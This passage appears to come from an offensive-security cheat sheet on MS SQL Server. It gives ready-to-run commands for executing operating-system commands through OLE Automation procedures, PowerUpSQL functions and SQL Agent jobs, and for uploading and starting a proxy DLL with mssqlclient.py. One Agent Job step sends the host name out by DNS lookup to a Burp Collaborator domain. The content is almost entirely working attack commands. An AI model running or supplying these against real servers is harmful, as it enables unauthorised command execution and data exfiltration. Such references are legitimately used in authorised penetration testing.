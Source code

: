 ## OLE Automation

* :warning: Disabled by default

### Execute commands using OLE automation procedures

```ps1
Invoke-SQLOSCmdOle -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
```

```ps1
# Enable OLE Automation
EXEC sp_configure 'show advanced options', 1
EXEC sp_configure reconfigure
EXEC sp_configure 'OLE Automation Procedures', 1
EXEC sp_configure reconfigure

# Execute commands
DECLARE @execmd INT
EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT
EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%\system32\cmd.exe /c'
```


```powershell
# https://github.com/blackarrowsec/mssqlproxy/blob/master/mssqlclient.py
python3 mssqlclient.py 'host/username:password@10.10.10.10' -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py 'host/username:password@10.10.10.10' -check -reciclador 'C:\windows\temp\reciclador.dll'
python3 mssqlclient.py 'host/username:password@10.10.10.10' -start -reciclador 'C:\windows\temp\reciclador.dll'
SQL> enable_ole
SQL> upload reciclador.dll C:\windows\temp\reciclador.dll
```


## Agent Jobs

### Execute commands through SQL Agent Job service

```ps1
Invoke-SQLOSCmdAgentJob -Subsystem PowerShell -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell e <base64encodedscript>" -Verbose
Subsystem Options:
–Subsystem CmdExec
-SubSystem PowerShell
–Subsystem VBScript
–Subsystem Jscript
```

```sql
USE msdb; 
EXEC dbo.sp_add_job @job_name = N'test_powershell_job1'; 
EXEC sp_add_jobstep @job_name = N'test_powershell_job1', @step_name = N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'$name=$env:COMPUTERNAME[10];nslookup "$name.redacted.burpcollaborator.net"', @retry_attempts = 1, @retry_interval = 5 ;
EXEC dbo.sp_add_jobserver @job_name = N'test_powershell_job1'; 
EXEC dbo.sp_start_job N'test_powershell_job1';

-- delete
EXEC dbo.sp_delete_job @job_name = N'test_powershell_job1';
```
